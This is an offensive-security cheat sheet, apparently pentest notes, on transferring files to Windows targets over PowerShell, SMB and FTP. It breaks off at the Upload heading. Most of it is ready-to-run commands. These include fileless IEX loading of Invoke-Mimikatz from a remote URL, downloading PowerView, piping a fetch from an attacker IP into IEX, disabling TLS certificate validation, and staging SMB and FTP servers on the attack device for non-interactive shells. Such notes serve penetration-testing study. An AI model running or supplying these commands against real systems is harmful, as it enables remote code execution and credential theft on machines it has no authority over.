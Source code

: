 # File Transfer

- ## *Windows*
	- ### *Download*
		- ##### PowerShell
			- **System.Net.WebClient**
				- Download a file over `HTTP, HTTPS or FTP`.
				- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
				- Fileless method using `Invoke-Expression` (run from memory).
					- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
					- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
			- **Invoke-WebRequest**
				- But it is **slower** at downloading files (aliases `iwr, curl, wget`)
				- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
			- **Common Errors**
				- Internet Explorer first-launch configuration isn't completed, use the option `-UseBasicParsing`.
					- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
				- Certificate isn't trusted
					- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
		- ##### SMB
			- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
				- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
					- Mount the `SMB` server with username and password. `net use n: \\<ip>\share /user:test test`
					- `copy n:\file` on the target device. 
				- Without `-user` and `-password`, no need to mount. `copy \\<ip>\share\file`.
		- ##### FTP
			-  Configure an `FTP` server on our device with Python module `pyftpdlib`.
				- `sudo pip3 install pyftpdlib`
				- By default, `pyftpdlib` uses port `2121`.
				- Start the server using `sudo python3 -m pyftpdlib --port 21`
				- Using PowerShell
					- `(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file', '<to path>'`
					- In case **Non-Interactive Shell**, create an FTP command file to download a file.
						- `echo open <ip> > ftpcommand.txt`
						- `echo USER anonymous >> ftpcommand.txt`
						- `echo binary >> ftpcommand.txt`
						- `echo GET file.txt >> ftpcommand.txt`
						- `echo bye >> ftpcommand.txt`
						- `ftp -v -n -s:ftpcommand.txt`
	- ### *Upload*
